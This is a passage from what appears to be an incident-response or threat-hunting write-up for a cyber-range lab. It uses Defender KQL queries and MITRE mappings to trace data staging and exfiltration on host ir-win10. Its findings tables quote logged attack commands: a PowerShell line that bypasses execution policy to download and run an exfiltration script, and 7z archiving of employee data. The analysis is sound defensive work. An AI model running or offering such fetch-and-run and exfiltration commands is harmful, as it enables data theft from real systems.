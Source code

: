 ![networkquery](https://github.com/user-attachments/assets/6fccbaf5-f771-4ba9-9805-e0baed7ed3de)

**Findings:**

| Timestamp          | ActionType       | RemoteIP          | RemotePort | RemoteUrl                                      | CommandLine                                           |
|--------------------|------------------|-------------------|------------|------------------------------------------------|-----------------------------------------------------|
| 8 Jan 2025 18:48:47 | ConnectionSuccess | 20.60.133.132     | 443        | https://sacyberrangedanger.blob.core.windows.net | powershell.exe  -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1    |
| 8 Jan 2025 18:48:39 | ConnectionSuccess | 20.60.181.193     | 443        | https://sacyberrange00.blob.core.windows.net    | powershell.exe  -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1    |
| 8 Jan 2025 18:48:35 | ConnectionSuccess | 185.199.109.133   | 443        | https://raw.githubusercontent.com              | powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1 |

These logs showed repeated connections to external endpoints, strongly supporting the hypothesis of data exfiltration.

### File Events Analysis

To identify artifacts related to data staging or exfiltration, I queried file events:

```kql
DeviceFileEvents
| where DeviceName == "ir-win10"
| project Timestamp, FileName, FolderPath, InitiatingProcessCommandLine, ActionType
| order by Timestamp desc
```

**Relevant TTPs:**
- **[T1027](https://attack.mitre.org/techniques/T1027/)**: Obfuscated Files or Information
- **[T1560.001](https://attack.mitre.org/techniques/T1560/001/)**: Archive Collected Data: Archive via Utility

**Findings:**

![Filequery](https://github.com/user-attachments/assets/aba14b2e-9fbd-41aa-a33d-bfe771693a61)

**Findings:**

| Timestamps             | FileName                     | FolderPath                             | InitiatingProcessCommandLine                                          | ActionType |
|--------------------------------|------------------------------|----------------------------------------|------------------------------------------------------------------------|------------|
| 8 Jan 2025 20:48:44, 19:48:41, 18:48:47 | employee-data-[TIMESTAMP].zip | C:\ProgramData\backup\employee-data-[TIMESTAMP].zip | powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1 | FileRenamed |
| 8 Jan 2025 20:48:43, 19:48:40, 18:48:47 | employee-data-[TIMESTAMP].zip | C:\ProgramData\employee-data-[TIMESTAMP].zip        | "7z.exe" a C:\ProgramData\employee-data-[TIMESTAMP].zip C:\ProgramData\employee-data-temp[TIMESTAMP].csv | FileCreated |

These findings confirmed the repeated creation and renaming of ZIP files, consistent with attempts to stage data for exfiltration.

---

## Containment, Eradication, and Recovery

### Immediate Containment

1. **Quarantine Affected Device**:
   - Isolated ir-win10 from the network with Defender for Endpoint.
